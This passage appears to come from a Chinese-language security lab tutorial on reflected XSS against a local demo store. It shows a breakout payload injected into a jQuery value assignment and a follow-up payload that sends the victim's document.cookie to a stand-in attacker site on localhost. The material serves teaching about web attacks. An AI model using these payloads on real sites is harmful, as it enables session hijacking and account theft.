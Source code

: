 3. 在 Search Textbox 中輸入 **@@@**，檢視網頁原始碼，Search **@@@** 居然有**2個**地方，第2個地方是透過 jQuery 去指定 Search 的值

    ![Search @@@](images/s2-08.png)

    ```JavaScript
    $('#searchTerm').val('@@@');
    ```

    >所以可以避開黑名單的字串，讓上述那段 JavaScript 程式來達到 **反射式(Reflected) XSS**

4. 驗證 XSS 可行性

    ```JavaScript
    $('#searchTerm').val('
    <<這裡可以搞怪>>
    ');
    ```

    ```JavaScript
    $('#searchTerm').val('
    ');alert(0);//
    ');
    ```

    Search TextBox 輸入 **');alert(0);//** ，按下 Enter 後，會 alert 0 ，表示 XSS 成功。它的 URL 為 **<http://localhost:44375/?searchTerm=%27%29%3Balert%280%29%3B%2F%2F>**

5. 透過 JavaScript 將 MyStore 的 Cookie 送到 Attacker.MyStore 去

    ```JavaScript
    $('#searchTerm').val('
    ');location.href='http://localhost:53441/cookies/?c='+encodeURIComponent(document.cookie);//
    ');
    ```
